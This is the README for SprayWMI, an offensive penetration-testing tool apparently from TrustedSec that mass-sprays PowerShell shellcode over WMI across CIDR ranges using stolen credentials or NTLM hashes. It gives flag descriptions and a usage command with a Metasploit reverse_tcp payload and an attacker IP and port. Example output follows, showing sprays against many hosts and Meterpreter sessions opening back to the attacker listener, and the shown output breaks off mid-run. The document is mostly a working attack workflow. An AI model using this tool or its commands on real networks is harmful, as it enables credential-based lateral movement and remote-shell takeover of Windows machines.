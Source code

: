 SprayWMI is a method for mass spraying unicorn powershell injection to CIDR notations.

Written by David Kennedy @TrustedSec
Special thanks: Justin Elze and Larry Spohn

# Initial Blog: https://www.trustedsec.com/june-2015/no_psexec_needed/
# if you have trouble with this on 64 bit - try:
# dpkg --add-architecture i386 && apt-get update && apt-get install libpam0g:i386 && apt-get install libpopt0:i386

Flag descriptions:

DOMAIN - domain you are attacking - if its local, just specify workgroup
USERNAME - username to authenticate on the remote Windows system
PASSWORD - password or password hash lm:ntlm to use on the remote Windows system
CIDR_RANGE,CIDR_RANGE or ips.txt - you can specify a single ip, a CIDR range (192.168.1.1/24) or multiple CIDRs such as 192.168.1.1/24,192.168.2.1/24. You can also specify a file (ex: file.txt) which has single IP addresses on a new line. 
METASPLOIT_PAYLOAD - this is the payload you want to use example: windows/meterpreter/reverse_tcp
REVERSE_SHELL_IP - this is the IP address of your attacker machine that you want to create a listener or use an already established listener
REVERSE_SHELL_PORT - port to connect back on for the reverse
OPTIONAL: NO - specify no if you do not want to create a listener - this is useful if you already have a listener established. If you do not specify a value here, it will automatically create a listener for you.

Usage: python spraywmi.py <domain> <username> <password or hash lm:ntlm> <cidr_range,cidr_range or ips.txt> <metasploit_payload> <reverse_shell_ip> <reverse_shell_port> <optional: no>

Below is an example of output from spraywmi:

root@stronghold:/home/relik# python spraywmi.py TS kennedy-test complexP255w0rd! 192.168.90.1/24,192.168.0.1/24,192.168.59.1/24,192.168.96.1/24,192.168.1.1/24 windows/meterpreter/reverse_tcp 192.168.47.24 443
[*] Generating shellcode through unicorn, could take a few seconds...
[*] Launching the listener in the background...
[*] Waiting for the listener to start first before we continue forward...
[*] Be patient, Metaploit takes a little bit to start...
[*] Sweeping network for ports that are open first, then moving through... Be patient.
[*] Launching WMI spray against IP: 192.168.90.1 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.2 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.7 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.11 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.14 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.16 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.18 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.25 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.30 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.37 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.38 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.39 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.41 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.46 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.52 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.53 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.54 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.55 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.58 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.63 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.64 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.101 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.102 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.106 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.107 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.113 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.119 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.151 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.158 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.159 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.171 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.174 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.175 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.176 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.183 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.184 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.187 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.197 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.199 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.203 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.204 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.208 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.216 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.223 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.225 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.227 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.228 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.231 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.237 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.240 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.244 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.248 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.252 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.0.1 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.0.2 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.0.3 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.0.4 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.0.92 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.3 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.4 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.11 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.12 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.20 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.21 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.22 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.23 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.242 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.1.13 - you should have a shell in the background. Once finished, shell will spawn
[*] Spraying is still happening in the background, shells should arrive as they complete.
[*] Interacting with Metasploit...
...
msf exploit(handler) > 
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.174
[*] Meterpreter session 1 opened (192.168.47.24:443 -> 192.168.90.174:49868) at 2015-10-13 04:33:55 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.203
[*] Meterpreter session 2 opened (192.168.47.24:443 -> 192.168.90.203:51333) at 2015-10-13 04:33:59 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.184
[*] Meterpreter session 3 opened (192.168.47.24:443 -> 192.168.90.184:61218) at 2015-10-13 04:34:02 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.204
[*] Meterpreter session 4 opened (192.168.47.24:443 -> 192.168.90.204:54219) at 2015-10-13 04:34:06 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.175
[*] Meterpreter session 5 opened (192.168.47.24:443 -> 192.168.90.175:54210) at 2015-10-13 04:34:10 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.16
[*] Meterpreter session 6 opened (192.168.47.24:443 -> 192.168.90.16:56657) at 2015-10-13 04:34:14 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.96.242
[*] Meterpreter session 7 opened (192.168.47.24:443 -> 192.168.96.242:49504) at 2015-10-13 04:34:18 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.183
[*] Meterpreter session 8 opened (192.168.47.24:443 -> 192.168.90.183:56926) at 2015-10-13 04:34:28 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.248
[*] Meterpreter session 9 opened (192.168.47.24:443 -> 192.168.90.248:53657) at 2015-10-13 04:34:31 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.39
[*] Meterpreter session 10 opened (192.168.47.24:443 -> 192.168.90.39:60451) at 2015-10-13 04:34:35 -0400
[*] Encoded stage with x86/shikata_ga_nai

